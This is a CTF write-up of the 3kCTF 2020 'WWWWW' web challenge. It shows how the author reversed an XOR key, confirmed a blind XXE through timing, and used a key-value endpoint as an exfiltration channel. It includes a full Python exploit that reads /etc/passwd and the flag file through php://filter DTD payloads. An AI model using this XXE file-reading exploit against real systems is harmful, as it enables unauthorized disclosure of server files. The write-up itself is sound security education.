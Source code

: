 ```yaml
---
layout: post
title: WWWWW
category: 3kCTF 2020
---
```


On July 24th we hosted the 3k international CTF, we tried to make it a good quality CTF as much as possible, we also tried not to make the challenge mostly guessable
, thats why as challenge includes a recon technique ( brute-forcing dirs/files) ,we added note that the task is kind of bounty challenge :)

To begin , the first steps were not that hard to find the vulnerability which was XXE but was a bit hard to exploit :) I will discuss this in my write up.
 .
The usual steps when checking out a web challenge or even when trying to find bugs in a website that we have never used is to check all possible functions at least on the main domain.

At the first check, we get an idea of what the website is!

![index](https://user-images.githubusercontent.com/7364615/88489371-2fa9fb80-cf94-11ea-86d0-1386be5d49d9.png)

Checking out each function and using burp to log all possible queries during that time, we found an interesting request that was triggered.

![api](https://user-images.githubusercontent.com/7364615/88489526-03db4580-cf95-11ea-8325-40a547d825b9.png)

We tried to decode the base64 data that was sent by it was not only encoded thats why we got garbage data. we get back to the source code page to check where the `api.php` is used ,but we just found some obfuscated javascript code

![js](https://user-images.githubusercontent.com/7364615/88489581-5288df80-cf95-11ea-889a-94734ed431b8.png)

We tried to deobfuscate it, but that was the worst option, it will take some time so the best solution will be to use `chrome devtools` and debug the code directly and check what is going on in our data!

Simply putting a breakpoint right after extracting the value of `email` line.

![bp](https://user-images.githubusercontent.com/7364615/88489835-38e89780-cf97-11ea-8c07-c688a7cd2867.png)

Continuing to track the functions called just before the final base64 data, we found that it was just xoring the email that was injected into a hardcoded XML document , where the key : `hSuuzuKdkvJeWgjW`

![xor](https://user-images.githubusercontent.com/7364615/88489906-e8be0500-cf97-11ea-9dbe-fc7d41de3910.png)

As we understand what the app was doing in the background, we can write simple code or just edit the XML each time using devtools.

First, to confirm that there is an XML external entity vulnerability, we can xor and encode our own payload directly without going through the javascript used on the application.

To confirm that we have XXE here, we just tried a simple payload, but as `api.php` just returns` {" result ":" ok "}` if the xml parse pass and` {"result": " error "}` if not.

and also after trying to include external url to verify pingback, we found that there was no request even a simple DNS request. So how can we confirm that we have XXE ?!

Easy, just use external url and local url to check (same as time based SQL injection :D)

![xxe](https://user-images.githubusercontent.com/7364615/88490135-a3023c00-cf99-11ea-822b-63be9052c210.png)

After encoding the url and sending these two payloads separately, we found that the payload that requests an external url takes a long time compared to the one that requests localhost which confirms that we have XXE in our case.

So as its bug bounty style based challenge, here we can ask our best friend `dirsearch` tool and he will tell us what to do: D

![dir](https://user-images.githubusercontent.com/7364615/88490248-8581a200-cf9a-11ea-8514-51519937ff70.png)

And yes :), we just got a cool output that includes results that we still haven't verified!

Digging a little deeper into the result, we found an endpoint that can be used to dump information about hotel and restaurant locations, but the most interesting part was this.

![file](https://user-images.githubusercontent.com/7364615/88490293-f628be80-cf9a-11ea-88a4-7d5e488e0ec7.png)

There was another file, visiting it it will come out

```
{"msg":"sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","read":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","write":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test"}
```

By checking and trying multiple attempts we confirm two results, we can either dump our config settings or change them as needed, but we should use our sid in each request which looks like a sessionid value

For example, to update current values, we can just request `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test` and then `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0` to confirm the update

Thinking about how to use this feature like a weapon, we can just make this endpoint which can be reached from localhost too as store file, so as we need in the normal exploit a External DTD but in this case there was no outgoing port open, using a php wrapper which should be supported in this case to return our DTD content as if it had been loaded from the outside. 

![sploit](https://user-images.githubusercontent.com/7364615/88490744-232aa080-cf9e-11ea-896c-0720b962fdee.png)

```
import requests
import base64
import json
from pwn import *

s = requests.Session()
key_xor = "hSuuzuKdkvJeWgjW"

def getsid():
    response = s.get('http://wwwweb.3k.ctf.to/define.php')
    return response.json()['msg'][4:]

def getdata(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid)
    return response.text

def testchange(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid+'&key=test&value=test')
    return response.text

def sendpayload(sid,payload):
  url = "http://wwwweb.3k.ctf.to/api.php"
  header = {"Content-type": "application/x-www-form-urlencoded", "Accept": "*/*", "Origin": "http://wwwweb.3k.ctf.to", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "dnt": "1", "Connection": "close"}
  response = requests.post(url, headers=header, data=payload)

def create_pay(key,dtd):
  return {"xml": b64e(xor("<!DOCTYPE r [\r\n  <!ELEMENT r ANY >\r\n  <!ENTITY % sp SYSTEM \"php://filter//resource=data://text/plain;base64,"+base64.b64encode(dtd)+"\"> %sp; %param1;\r\n]>\r\n<subscribe><email>&exfil;</email></subscribe>",key))}

sid = getsid()

print "[*] SID : "+sid
print "[*] Default value : "+ getdata(sid)
print "[*] Make small changes to test : "+ testchange(sid)
print "[*] New value : \n"+ getdata(sid)

external_dtd_1 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'
external_dtd_2 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///flag"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'

print "[*] Send payload 1 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_1))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Send payload 1 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_2))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Reset value to prevent leak"
testchange(sid)
```

and the flag was : 3k{cL457rBpVxsJnRXNR9vW6uR4hbKszeFs}

Thanks for reading, well done `RedRocket` and `WreckTheLine` who were the only two teams to solve the challenge during the CTF.

See you next time :)
